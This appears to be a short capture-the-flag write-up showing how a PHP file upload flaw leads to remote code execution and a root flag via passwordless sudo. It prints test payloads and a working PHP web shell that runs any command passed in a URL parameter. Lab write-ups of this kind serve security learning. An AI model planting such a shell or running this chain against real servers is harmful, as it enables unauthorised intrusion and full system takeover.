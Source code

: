 # 1. Analysis
There is a file upload module.
![](Pasted%20image%2020250506103139.png)
Try upload file who load php info.
```
<?php phpinfo(); ?>
```
It responsed with path location of the uploaded file.
![](Pasted%20image%2020250506105450.png)
Try to access the the path. And it response with also with php info. it shows that it potentially had file upload vulnerability dan may be can also have command injection and RCE too (I hope).
![](Pasted%20image%2020250506105654.png)
# 2. Exploitation
Try upload php file who execute linux command, and it works!.
```
<?php system('ls -lha');?>
```
![](Pasted%20image%2020250506110319.png)

Try upload RCE, it works
```
<?php
$command = isset($_GET['command']) ? $_GET['command'] : '';
$output = [];
$return_var = 0;
exec($command, $output, $return_var);
echo '<h1>Exploiting RCE</h1>';
echo 'Command: '.$command;
echo '\n<pre>';
echo implode("\n", $output);
echo '</pre>';
?>
```
![](Pasted%20image%2020250506111251.png)

Check sudo -l, no password at all
![](Pasted%20image%2020250506111735.png)

access /root to get flag
![](Pasted%20image%2020250506111915.png)

# 3. Conclusion
Knowledge need to know:
- File upload vulnerability
- PHP
- Linux command
- RCE

**Hurray! You solved this challenge.**
